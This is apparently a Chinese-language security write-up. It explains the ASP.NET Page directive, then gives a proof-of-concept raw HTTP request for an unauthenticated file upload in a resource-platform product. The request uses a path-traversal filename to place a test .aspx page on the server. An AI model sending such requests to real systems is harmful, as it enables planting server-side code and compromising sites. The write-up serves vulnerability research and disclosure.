 通常在我们打开aspx文件时，第一行会是以下这样：

```c#
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="MyPage.aspx.cs" Inherits="MyWebApp.MyPage" %>
```

这是一个 ASP.NET Web 页面的指令（Directive），用于在页面中指定一些重要的属性和配置

解析如下：

- **&lt;%@ Page：** 这是指令的起始标记，用于定义页面的属性和配置。
- **Language="C#"：** 指定服务器端代码使用的编程语言，这里是 C#。
- **AutoEventWireup="true"：** 一个布尔值，表示是否启用自动事件绑定。当设置为 true 时，ASP.NET 将自动绑定事件处理程序。
- **CodeBehind="MyPage.aspx.cs"：** 指定代码文件的相对路径。在这个例子中，代码文件名为 MyPage.aspx.cs，它通常包含页面的服务器端逻辑。
- **Inherits="MyWebApp.MyPage"：** 指定页面的继承关系。这里，MyPage 页面继承自 MyWebApp.MyPage 类。Inherits 属性告诉 ASP.NET 使用指定类中的代码。

通过这个指令，ASP.NET 可以正确地处理页面，编译代码文件，然后将其与页面关联起来。这使得在 .aspx 页面中可以使用与 .aspx.cs 文件关联的服务器端代码

在一般的.NET代码中，我们需要特别注意 inherits（继承）部分。它会指向我们需要去找的 dll ，例如前面的示例可能指向的是 MyWebApp.dll ，在MyWebApp.dll中寻找MyPage

0x02 Poc—前台Nday上传
=================

```php
POST /Tools/Video/VideoCover.aspx HTTP/1.1
Host: xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insectre-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 1015 7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/107.0.0.0 Safari 537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avifimage/webp,image/apng,*/*;q=0.8,application/signed-exchangev=b3;q=0.9
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;g=0.9
Cookie: ASP.NET_SessionId=pgfnw0patx4kh0jsnpjgzcmq; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Connection: close
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Length: 294

------WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Disposition: form-data, name= "file";filename="/../../../AVA.ResourcesPlatform.WebUI/test.aspx"
Content-Type: image/jpeg

<%@Page Language="C#"%>
<%
Response.Write("test");
%>
------WebKitFormBoundaryVBf7Cs8QWsfwC82M--

```
